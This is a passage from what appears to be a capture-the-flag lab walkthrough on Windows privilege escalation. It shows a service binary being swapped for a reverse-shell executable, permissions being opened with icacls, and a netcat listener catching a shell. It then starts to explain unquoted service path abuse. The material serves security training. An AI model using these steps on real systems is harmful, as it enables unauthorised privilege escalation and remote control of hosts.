 `C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp`\
`1 file(s) moved.`

`C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe`\
`1 file(s) moved.`

`C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F`\
`Successfully processed 1 files.`

We start a reverse listener on our attacker machine:\
Kali Linux\
`user@attackerpc$ nc -lvp 4445`

And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a cmd.exe command prompt:\
Command Prompt\
`C:\> sc stop windowsscheduler`\
`C:\> sc start windowsscheduler`

**Note:** PowerShell has `sc` as an alias to `Set-Content`, therefore you need to use `sc.exe` in order to control services with PowerShell this way.\
As a result, you'll get a reverse shell with svcusr1 privileges:\
Kali Linux\
`user@attackerpc$ nc -lvp 4445`\
`Listening on 0.0.0.0 4445`\
`Connection received on 10.10.175.90 50649`\
`Microsoft Windows [Version 10.0.17763.1821]`\
`(c) 2018 Microsoft Corporation. All rights reserved.`

`C:\Windows\system32>whoami`\
`wprivesc1\svcusr1`

Go to svcusr1 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.

### Unquoted Service Paths

When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.\
When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.\
As an example, let's look at the difference between two services (these services are used as examples only and might not be available in your machine). The first service will use a proper quotation so that the SCM knows without a doubt that it has to execute the binary file pointed by `"C:\Program Files\RealVNC\VNC Server\vncserver.exe"`, followed by the given parameters:\
Command Prompt\
`C:\> sc qc "vncserver"`\
`[SC] QueryServiceConfig SUCCESS`

`SERVICE_NAME: vncserver`\
`TYPE : 10 WIN32_OWN_PROCESS`\
`START_TYPE : 2 AUTO_START`\
`ERROR_CONTROL : 0 IGNORE`\
`BINARY_PATH_NAME : "C:\Program Files\RealVNC\VNC Server\vncserver.exe" -service`\
`LOAD_ORDER_GROUP :`\
`TAG : 0`\
`DISPLAY_NAME : VNC Server`\
`DEPENDENCIES :`\
`SERVICE_START_NAME : LocalSystem`
